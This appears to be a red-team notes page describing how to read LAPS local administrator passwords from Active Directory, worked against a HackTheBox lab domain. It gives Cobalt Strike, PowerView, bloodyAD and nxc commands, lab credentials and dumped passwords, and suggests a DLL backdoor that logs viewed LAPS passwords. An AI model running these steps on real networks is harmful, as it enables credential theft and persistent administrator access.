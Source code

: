 ```yaml
---
title: Credential Access - LAPS
date: 2025-05-10 06:00:00 +/-TTTT
categories: [CredentialAccess]
tags: [LAPS]     # TAG names should always be lowercase
image : /assets/images/LAPS.gif
---
```

## Entry

LAPS (Local Administrator Password Solution) falls under the category of credential management and privilege escalation prevention in Active Directory environments. In the context of pentesting or red teaming, it is most relevant to:

> So it will only work for when u can try to go Local Administrator. now child domains etc.
{: .prompt-tip}

## Enumerate with Cobalt Strike and Abuse

There is tons way to make sure

![alt text](../assets/images/laps1.png)

Lets see if we have AdmPwd.dll at;

Command to execute:
```sh
ls C:\Program Files\LAPS\CSE
```
![alt text](../assets/images/laps2.png)

Check for, Computer Object having `ms-Mcs-AdmPwdExpirationTime` attribute is set to Not Null.

Commands to execute;
```sh
powershell-import /home/elliot/tools/PowerView.ps1
powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```
![alt text](../assets/images/laps3.png)

Now lets get Admin Password
Command to execute
```sh
powerpick Get-DomainComputer -Identity dc01.timelapse.htb -Properties ms-Mcs-AdmPwd
```
> `dc01.timelapse.htb` should be same what we found from dnsHostName
{: .prompt-tip}

![alt text](../assets/images/laps4.png)

now we can make token for Administrator and get access.

![alt text](../assets/images/laps5.png)

### ➜  LAPS Backdoor

> - Modify the AdmPwd.PS.dll and AdmPwd.Utils.dll file located at C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\ location to log the LAPS password everytime it is viewed by the admin user (Chevk Notes)
{: .prompt-tip}

## Enumerate with Linux and Abuse

### with bloodyAD
```sh
bloodyAD --host 10.10.11.152 -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
it will give
```sh
distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: 2#dU97o8@4@2a/(M%nkF6vM6
ms-Mcs-AdmPwdExpirationTime: 133917410497460268
```

### with nxc
```sh
nxc ldap 10.10.11.152 -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```
and it will give this shit
```sh
SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer:DC01$ User:                Password:2#dU97o8@4@2a/(M%nkF6vM6
```

